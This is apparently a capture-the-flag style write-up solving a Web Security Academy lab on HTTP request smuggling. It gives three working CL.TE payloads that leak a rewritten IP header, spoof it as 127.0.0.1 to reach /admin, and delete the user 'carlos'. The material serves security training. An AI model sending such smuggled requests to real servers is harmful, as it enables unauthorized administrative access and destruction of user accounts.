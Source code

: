 Intercept request and change to post
Our response should have search result for follow by the rewritten http request

```
POST / HTTP/1.1
Host: 0ade004c03eb044e80bb21c40037006f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```

Make note of  `x-nDBWAo` header 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/a09771a0-9fb8-4147-ba3a-f0e53e69f265)





Our exploit to get admin
```
POST / HTTP/1.1
Host: 0ade004c03eb044e80bb21c40037006f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 147
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-nDBWAo-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```


We can now delete the user
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/c7f5346a-3229-42db-89aa-1ac2cf9131fa)




```
POST / HTTP/1.1
Host: 0ade004c03eb044e80bb21c40037006f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 170
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-nDBWAo-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```